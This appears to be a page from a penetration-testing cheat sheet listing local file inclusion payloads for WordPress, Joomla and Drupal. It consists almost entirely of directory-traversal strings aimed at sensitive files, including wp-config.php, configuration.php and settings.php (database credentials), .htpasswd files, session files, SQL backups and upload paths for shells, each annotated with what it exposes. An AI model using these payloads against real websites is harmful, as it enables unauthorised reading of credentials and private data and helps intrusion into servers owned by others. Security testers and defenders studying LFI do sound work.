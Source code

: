 # WordPress LFI Payloads
```bash
../../../../../../wp-config.php                  # WordPress configuration file (DB credentials, salts)
../../../../../../wp-content/debug.log           # Debug log (if debug mode is enabled)
../../../../../../wp-content/uploads/.htaccess   # Hidden files or configuration in uploads
../../../../../../wp-content/uploads/evil.php    # Target for file upload vulnerabilities
../../../../../../wp-includes/rss-functions.php  # Include files used for RSS feeds
../../../../../../wp-admin/.htpasswd             # Password-protected file for the wp-admin area
../../../../../../wp-content/themes/twentytwenty/index.php  # Theme file inclusion
../../../../../../wp-includes/class-wp-user.php  # User authentication file
../../../../../../wp-content/uploads/.db         # Backup database files
../../../../../../wp-content/uploads/wp-backup.sql  # SQL database backups
```

# Joomla LFI Payloads
```bash
../../../../../../configuration.php              # Joomla main configuration file
../../../../../../administrator/logs/error.php   # Error logs
../../../../../../tmp/shell.php                  # Exploitable upload paths
../../../../../../cache/sessions/sess_abc123     # Joomla session files
../../../../../../libraries/joomla/database/table/user.php  # User table and authentication code
../../../../../../logs/joomla.php                # Joomla log file
../../../../../../administrator/manifests/files/joomla.xml  # Installed Joomla components
../../../../../../language/en-GB/en-GB.xml       # Language files, possibly sensitive configs
../../../../../../tmp/joomla_update.sql          # Database update files
../../../../../../tmp/backup.sql                 # Backup SQL files
```

# Drupal LFI Payloads
```bash
../../../../../../sites/default/settings.php     # Drupal main settings file (DB credentials)
../../../../../../sites/default/files/.htaccess  # Hidden files protection
../../../../../../sites/default/files/tmp/shell.php  # Exploitable upload directory
../../../../../../sites/all/modules/views/includes/view.inc  # View module files
../../../../../../sites/all/modules/admin_menu/includes/menu.inc  # Admin menu files
../../../../../../sites/default/files/private/private_file.txt  # Private file directory
../../../../../../core/modules/user/user.module  # User module for authentication
../../../../../../core/modules/system/system.module  # System module for configuration
../../../../../../sites/all/libraries/tcpdf/config/tcpdf_config.php  # PDF library configuration
../../../../../../sites/default/files/temp/.htpasswd  # Password-protected temp files
```

# 4. Common Web Applications (WordPress, Joomla, Drupal, etc.): Many web applications store their configuration files in predictable locations, which can be exploited using LFI vulnerabilities.

